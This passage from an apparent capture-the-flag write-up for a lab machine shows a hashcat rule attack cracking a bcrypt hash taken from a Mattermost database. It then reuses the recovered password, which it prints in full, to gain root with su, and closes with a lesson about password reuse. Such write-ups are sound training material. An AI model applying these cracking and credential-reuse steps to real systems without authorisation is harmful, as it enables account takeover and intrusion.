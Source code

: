 Going through the `hashcat` rule directory at `/usr/share/hashcat/rules/` a couple stick out:

```bash
drwxr-xr-x 3 root root   4096 Jan 30 22:49 .
drwxr-xr-x 7 root root   4096 Jan 30 22:43 ..
-rw-r--r-- 1 root root    933 Jul 31  2020 best64.rule
-rw-r--r-- 1 root root    633 Jul 31  2020 combinator.rule
-rw-r--r-- 1 root root 788063 Jul 31  2020 dive.rule
-rw-r--r-- 1 root root 483425 Jul 31  2020 generated2.rule
-rw-r--r-- 1 root root  78068 Jul 31  2020 generated.rule
-rw-r--r-- 1 root root 309439 Jul 31  2020 Incisive-leetspeak.rule
-rw-r--r-- 1 root root    298 Jul 31  2020 leetspeak.rule
-rw-r--r-- 1 root root 301161 Jul 31  2020 rockyou-30000.rule
-rw-r--r-- 1 root root  55346 Jul 31  2020 unix-ninja-leetspeak.rule
```

L33tspeak rules and some common wordlists seem promising, so I just start from the top and try all of them.

> By the way: The hashes were identified as **salted bcrypt** (`hashcat` id 3200), as indicated by `$2a$`
> at the beginning of these hashes.

```bash
$ hashcat -a 0 -m 3200 -r /usr/share/hashcat/rules/<file>.rule mattermost_root.hash phrase.txt
```

It turned out that the first attempt with `best64.rule` already succeeds, cracking the password hash and revealing the original password. The same rule (and a couple others) had no success with the other two hashes, so those were probably from somebody else and kinda secure.

> ## Credentials gathered
>
> `root:PleaseSubscribe!21`

This password could be the one for `root` on the host itself. Let's try that.

```bash
maildeliverer@Delivery:~$ su root
Password:
root@Delivery:/home/maildeliverer# id
uid=0(root) gid=0(root) groups=0(root)
root@Delivery:/home/maildeliverer# cat /root/root.txt
fdebf05c73ebffb0938387343d6144fb
```

## 9. Lessons Learned

This box went smooth mostly. There were a couple traces that were promising and several things that might could've come in handy later, like the **Domain Whitelist**, **Password Policy Software** or **OSTicket DB Access**. It's always worth to keep such things in mind, even if they aren't useful immediately.

Security-wise, this box shows off that password re-use is a serious problem. `ippsec`, the author of this box, left a comment saying that the box was inspired by a news article, so there is a piece of truth in this CTF.
